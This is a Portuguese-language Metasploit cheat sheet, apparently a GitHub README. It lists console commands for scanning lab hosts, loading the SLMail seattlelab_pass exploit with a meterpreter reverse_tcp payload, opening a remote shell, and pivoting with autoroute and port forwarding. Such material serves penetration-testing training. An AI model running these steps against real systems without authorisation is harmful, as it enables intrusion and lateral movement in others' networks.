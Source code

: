 # MetaSploit Framework

Ferramenta desenvolvida pela rapid7.com para auxiliar na criação e utilização de exploits.

Iniciando MSF:  
```bash
service postgresql start  
msfconsole
```

Comando de ajuda:  
```
msf > help
```

Verificando a conexão com o banco de dados:  
```
msf > db_status
```

Escaneamento de alvo salvando as informações no DB:  
```
msf > db_nmap -A 172.16.1.4
```

Importando arquivo XML do NMAP:  
```
nmap -v -A 172.16.1.5 -oX host5.xml  
msf > db_import host5.xml
```

Listagem dos hosts:  
```
msf > hosts
```

Verificando vulnerabilidade nos hosts:  
```
msf > vulns
```

Listagem de serviços:  
```
msf > services
```

Buscando exploit:  
```
msf > search slmail
```

Usando exploit:  
```
msf > use exploit/windows/pop3/seattlelab_pass
```

Ver informações do exploit:  
```
msf exploit(seattlelab_pass) > info
```

Setando parâmetros no exploit:  
```
msf exploit(seattlelab_pass) > show options  
msf exploit(seattlelab_pass) > set RHOST 172.16.1.4  
msf exploit(seattlelab_pass) > show options
```

Verificando payloads disponíveis:  
```
msf exploit(seattlelab_pass) > show payloads
```

Setando payload para ser utilizado:  
```
msf exploit(seattlelab_pass) > set payload windows/  meterpreter/reverse_tcp  
msf exploit(seattlelab_pass) > show options  
msf exploit(seattlelab_pass) > set LHOST 172.20.0.2  
msf exploit(seattlelab_pass) > set LPORT 4444  
msf exploit(seattlelab_pass) > show options
```

Executando exploit:  
```
msf exploit(seattlelab_pass) > exploit  
meterpreter > ipconfig
```

Verificando comandos no meterpreter:  
```
meterpreter > help
```

Abrindo o shell:  
```
meterpreter > shell
```

Colocando meterpreter em segundo plano:  
```
meterpreter > background
```

Retomando meterpreter:  
```
msf > session -i 4
```

Exibindo módulos auxiliares:  
```
msf > show auxiliary
```

Utilizando um módulo auxiliar:  
```
msf > use auxiliary/scanner/smb/smb_version  
msf > show options  
msf > set RHOSTS 172.16.1.5  
msf > run
```

Criando rota da rede do alvo para a nossa máquina:  
```
meterpreter > run autoroute -s 192.168.0.0/24
```

Criando redirecionamento de porta do alvo para a nossa máquina:  
```
meterpreter > portfwd add -l 3389 -p 3389 -r 192.168.0.101
```

